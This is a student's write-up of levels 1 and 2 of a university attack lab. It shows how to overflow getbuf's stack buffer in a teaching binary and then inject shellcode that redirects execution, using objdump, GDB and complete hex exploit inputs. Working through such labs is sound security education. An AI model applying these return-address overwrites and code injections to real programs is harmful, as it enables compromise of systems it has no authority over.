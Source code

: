 # Attack lab

By Adrian Borup (adbo@itu.dk).

## Part I: Code Injection Attacks

### Level 1

We start by inspecting the assembly to find the address of the `touch1` function:

```asm
$ objdump -D ctarget | grep -A 14 "<touch1>"
0000000000402698 <touch1>:
  402698:       f3 0f 1e fa             endbr64
  40269c:       50                      push   %rax
  40269d:       58                      pop    %rax
  40269e:       48 83 ec 08             sub    $0x8,%rsp
  4026a2:       c7 05 50 82 0f 00 01    movl   $0x1,0xf8250(%rip)        # 4fa8fc <vlevel>
  4026a9:       00 00 00
  4026ac:       48 8d 3d 58 5c 0c 00    lea    0xc5c58(%rip),%rdi        # 4c830b <_IO_stdin_used+0x30b>
  4026b3:       e8 a8 a2 01 00          callq  41c960 <_IO_puts>
  4026b8:       bf 01 00 00 00          mov    $0x1,%edi
  4026bd:       e8 f4 04 00 00          callq  402bb6 <validate>
  4026c2:       bf 00 00 00 00          mov    $0x0,%edi
  4026c7:       e8 64 fb 00 00          callq  412230 <exit>

00000000004026cc <touch2>:
```

Our goal is now to overwrite the return address after `getbuf` so it points to `0x402698`. We want to know the size of the stack frame so we can overwrite the return address. Let's check out `getbuf`'s assembly code:

```asm
$ objdump -D ctarget | grep -A 9 -m 1 "<getbuf>"
000000000040267e <getbuf>:
  40267e:       f3 0f 1e fa             endbr64
  402682:       48 83 ec 28             sub    $0x28,%rsp
  402686:       48 89 e7                mov    %rsp,%rdi
  402689:       e8 b5 02 00 00          callq  402943 <Gets>
  40268e:       b8 01 00 00 00          mov    $0x1,%eax
  402693:       48 83 c4 28             add    $0x28,%rsp
  402697:       c3                      retq

0000000000402698 <touch1>:
```

At instruction `0x40267e`, we can see an integer constant `$0x28`, which is 40 in base 10. The return address, `%rsp`, is decremented with these 40 bytes - therefore our stack frame must be 40 bytes in size. We can confirm this by seeing if the program starts to misbehave between 39 and 40 bytes of input:

```sh
# File contains 39 bytes:
$ cat inp.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00

# Pipe 39 bytes into the program:
$ cat inp.txt | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:No exploit.  Getbuf returned 0x1
Normal return

# Pipe one more byte into the program:
$ (cat inp.txt; echo " 00") | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
FAILED
```

Yup! Boom. The segfault happens when we feed 40 bytes. Therefore, let's try to add another word (8 bytes) to the input so those bytes will overwrite the return address:

```diff
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
+ 98 26 40 00 00 00 00 00
```

Here we've inserted the address of `touch1` (with the bytes reversed to obtain little-endian order). By feeding this to the vulnerable program, we see that the return address is indeed overwritten, and the instructions from `touch1` are executed:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### Level 2

First, let's locate `touch2`, and let's see what our unique cookie looks like:

```asm
$ objdump -D ctarget | grep -A 5 "<touch2>"
00000000004026cc <touch2>:
  4026cc:       f3 0f 1e fa             endbr64
  4026d0:       50                      push   %rax
  4026d1:       58                      pop    %rax
  4026d2:       48 83 ec 08             sub    $0x8,%rsp
  4026d6:       89 fa                   mov    %edi,%edx

$ cat cookie.txt
0x5d21660e 
```

Excellent - we can now write our exploit code. We'll do it in raw assembly:

```asm
# The %rdi register holds the first function argument. We write our cookie value
# into that register, so touch2 will receive it as the val argument.
mov $0x5d21660e,%rdi

# We push a return address onto the stack - in this case the address of touch2
push $0x4026cc

# Return, which will pop the stack and go to that address
ret
```

To obtain the byte representation of our exploit code, we save the above code in `exploit.s` and compile it:

```asm
$ gcc -c exploit.s && objdump -D exploit.o

exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 0e 66 21 5d    mov    $0x5d21660e,%rdi
   7:   68 cc 26 40 00          pushq  $0x4026cc
   c:   c3                      retq
```

One last thing before we write our buffer overflow input: we need the address of our exploit code. First, let's overwrite the stack frame with these 39 bytes of input:

```sh
$ cat test.txt
12 34 56 78 90 ab cd ef
11 11 11 11 22 22 22 22
33 33 33 33 44 44 44 44
55 55 55 55 66 66 66 66
77 77 77 77 88 88 88

$ cat test.txt | ./hex2raw > test.bin
```

Then we can use GDB to inspect the values of the memory in the stack frame. From earlier, we know that `0x40268e` is the address of the instruction after `Gets` returns in `getbuf` (i.e. when our buffer overflow should have completed).

```sh
$ gdb ./ctarget
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
"...
Reading symbols from ./ctarget...

# Set breakpoint in getbuf right after Gets returns
(gdb) b *0x40268e
Breakpoint 1 at 0x40268e: file buf.c, line 15.

# Run the program with the above input
(gdb) r < test.bin
Starting program: /home/stud/adbo/exercises/22-Lab2-attacklab/target22/ctarget < test.bin
Cookie: 0x5d21660e

Breakpoint 1, getbuf () at buf.c:15
15      buf.c: No such file or directory.

# Starting from the stack pointer (register %rsp - the top of the stack), show
# the address and value of the next 48 bytes. That is, the stack frame and the
# following return address.
(gdb) x/48bx $rsp
0x55609288:     0x12    0x34    0x56    0x78    0x90    0xab    0xcd    0xef
0x55609290:     0x11    0x11    0x11    0x11    0x22    0x22    0x22    0x22
0x55609298:     0x33    0x33    0x33    0x33    0x44    0x44    0x44    0x44
0x556092a0:     0x55    0x55    0x55    0x55    0x66    0x66    0x66    0x66
0x556092a8:     0x77    0x77    0x77    0x77    0x88    0x88    0x88    0x00
0x556092b0:     0x79    0x28    0x40    0x00    0x00    0x00    0x00    0x00
```

We can see that our input bytes start at address `0x55609288`. The last line shows the address (`0x402879`) of the original instruction that we would normally return to - but we will overwrite this address with the address to our exploit code instead.

We can now create our final buffer overflow input:

```asm
$ cat inp.txt
/* Exploit code */
48 c7 c7 0e 66 21 5d    /* mov    $0x5d21660e,%rdi */
68 cc 26 40 00          /* pushq  $0x4026cc */
c3                      /* retq */

/* Padding */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Address of our exploit code */
88 92 60 55 00 00 00 00
```

And feed it to the vulnerable program:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch2!: You called touch2(0x5d21660e)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
